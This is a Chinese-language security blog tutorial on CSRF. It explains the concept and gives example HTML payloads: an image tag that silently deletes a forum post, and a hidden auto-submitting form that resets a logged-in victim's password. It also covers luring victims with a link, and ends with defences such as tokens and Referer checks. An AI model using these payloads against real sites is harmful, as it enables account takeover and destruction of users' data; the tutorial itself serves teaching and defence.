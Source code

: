 ```yaml
---
draft: false
date: 2016-06-28 09:21:34
title: CSRF 漏洞
description: 
categories:
  - Pentest
tags:
  - csrf
---
```


### 0x00 概念
当你登陆某个网站时，通常浏览器与网站都会形成一个会话，在会话没有结束时你可以执行发表文章、发邮件、删除文章等操作，若会话结束，你再操作的话会提示你会话已经结束，请重新登陆。  

CSRF就是：攻击者通过一些技术手段欺骗用户的<font color="FF0000">浏览器</font>去<font color="FF0000">访问</font>一个自己曾<font color="FF0000">认证过</font>的网站并<font color="FF0000">执行某些操作</font>。也可以说CSRF就是黑客利用受害者的Cookie骗取服务器的信任从而执行某些操作

### 0x01 利用
* 利用条件
    * 攻击者可以得知url的所有参数项并了解其含义
    * 诱导用户访问构造好的POC

* 利用地方
    * 操作是有意义的(比如:修改密码等)
    * 验证过于简单(参数固定、我们可以设置参数)

### 0x02 GET型CSRF攻击
```
若有论坛www.aa.com，论坛删除文章的操作是请求类似
http://www.aa.com/opt.php?id=135&act=del&name=Tom的链接
```
```
有用户A，他登陆了论坛，且有篇文章id为251，那么他的浏览器此时已经取得了论坛的信任
```
```
此时有hacker用户B，他构造了一个html为b.html，b.html内容如下：
<html>
<head>
    <title>test</title>
</head>
<body>
    <img src="http://www.aa.com/opt.php?id=251&act=del&name=A" />
</body>
</html>
将b.html放在他自己搭建的网站上，网址为http://www.bb.com/b.html
```
```
恶意用户B将链接http://www.bb.com/b.html通过qq发送给用户A，
诱使他访问，用户A一旦访问，他id为251的文章就会被删除
```

### 0x03 POST型CSRF攻击
若网站www.xx.com有让用户修改密码的功能，但验证过于简单，形如下图：
![csrf_post利用](/img/post/csrf_post.png)
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>aa</title>
</head>
<body>
    <form action="http://172.23.10.200/setpasswd.php" method="post">
        昵称：<input type="text" name="nickname" id="nickname" value="xxxxx">
        用户名：<input type="text" name="name" id="name" value="xiaoming">
        密码：<input type="passwd" name="passwd" id="passwd" value="">
        确认密码：<input type="rpasswd" name="rpasswd" id="rpasswd" value="">
        <input type="submit" name="button" value="提交">
    </form>
</body>
</html>
```
此时我们就可以构造自动提交表单的xxxx.html，内容如下：
```html
<html>
<head>
    <title>aa</title>
</head>
<body>
    <form name="csrf" action="http://172.23.10.200/setpasswd.php" method="post">
        <input type="hidden" name="passwd" id="passwd" value="666666">
        <input type="hidden" name="rpasswd" id="rpasswd" value="666666">
    </form>
    <script>
        setTimeout("document.csrf.submit()",100);
    </script>
</body>
</html>
```
然后将连接```http://www.bb.com/xxxx.html``` 发送给用户,诱使他点击链接,一旦他点击,则密码就会被修改

### 0x04 防御：
* 验证Referer
* 对于修改密码的表单可以要求输入原密码  
* 二次确认(如删除用户、转账等重要操作弹窗要求用户确认)
* Token认证  
    * GET操作请求：可以在Cookie中存储Token  
    * POST操作请求：可以在form表单中添加一个隐藏的input标签，value值为Token
    * 在header中添加自定义参数携带token
